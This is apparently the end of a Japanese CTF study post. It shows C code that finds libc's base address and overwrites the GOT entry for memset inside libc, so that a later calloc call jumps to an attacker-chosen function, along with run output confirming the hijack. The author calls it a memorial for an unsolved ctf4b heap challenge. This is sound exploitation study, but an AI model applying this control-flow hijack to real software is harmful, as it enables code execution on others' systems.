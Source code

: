 ```c

    void* libc_base = &puts - (unsigned long)off_puts;
    printf("libc_base = %p\n",libc_base);
    void* got_memset_in_libc = libc_base + off_got_memset_in_libc;
    printf("got_memset_in_libc = %p\n",got_memset_in_libc);

    // before overwrite
    void* ptr = calloc(0x58,1);

    // overwrite symbols
    *(unsigned long*)got_memset_in_libc = target1;

    puts("before memset()");

    memset(ptr, 0, 0x58); // not work (memset() from user binary)

    puts("before calloc()");

    ptr = calloc(0x58,1); // exploit (memset() from libc)
    puts("End of main()");
    return;
}
```
```
$ ./got_in_libc 
Start of main()
libc_base = 0x7fc77cbf0000
got_memset_in_libc = 0x7fc77ce09188
before memset()
before calloc()
In target1(): arg1=0x55c178b23710
End of main()
```

# 終わりに
実はこれはctf4bのmonkey heapが解けなかった際の供養
最近サボってたら置いてかれていた

間違いあれば教えてください
